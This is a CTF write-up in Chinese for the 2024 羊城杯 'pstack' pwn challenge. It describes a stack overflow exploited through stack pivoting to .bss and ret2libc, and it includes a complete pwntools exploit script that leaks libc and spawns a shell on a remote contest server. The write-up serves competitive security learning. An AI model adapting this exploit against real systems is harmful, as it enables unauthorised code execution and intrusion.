





# pstack_wp

[羊城杯_pwn_pstack](https://ycb2024.dasctf.com/324/competePage/570)，这是一道利用栈迁移打ret2libc题

来自ssot战队

## 分析

打开IDA，可见程序很简单三个函数



vuln函数分析，栈空间分配0x30，而read读0x40，造成0x10字节溢出



没有system函数和'/bin/sh'，先考虑ret2libc

获取rop链



确定迁移到bss段



构造payload，增加溢出长度，获取已有puts的真实地址从而计算出基地址



接下来常规操作，进行拿shell

## exp

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
io=remote('139.155.126.78',39903)
elf=ELF('./pwn')
libc=ELF('./libc.so.6')
#函数地址
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main=elf.sym['main']
#rop地址
bss=0x601310
rdi=0x400773
read=0x4006C4
rbp=0x4005b0
#利用栈迁移，获取puts真实地址，并计算偏移地址
io.send(b'a'*0x30+p64(bss)+p64(read))
io.send(b'a'*0x30+p64(bss+0x30)+p64(read))
io.send(p64(bss+0x40)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main))
puts_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base=puts_addr-libc.sym['puts']
print(hex(libc_base))
#拿shell
r12=libc_base+0x35731
getshell=libc_base+0xebd38
io.send(b'a'*0x30+p64(bss+0x100)+p64(read))
io.send(b'a'*0x30+p64(bss+0x130)+p64(read))
io.send(p64(bss+0x140)+p64(r12)+p64(0)+p64(getshell))
io.interactive()
```

来自ssot战队